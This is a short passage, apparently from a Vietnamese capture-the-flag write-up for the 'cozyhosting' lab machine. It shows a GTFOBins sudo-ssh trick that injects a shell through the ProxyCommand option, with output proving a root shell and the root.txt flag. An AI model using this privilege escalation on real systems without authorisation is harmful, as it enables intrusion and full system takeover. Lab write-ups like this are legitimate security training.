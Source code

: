 Vào [ssh | GTFOBins](https://gtfobins.github.io/gtfobins/ssh/) và lấy quyền root với sudo 

```python
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root)
# ls /root
root.txt
```


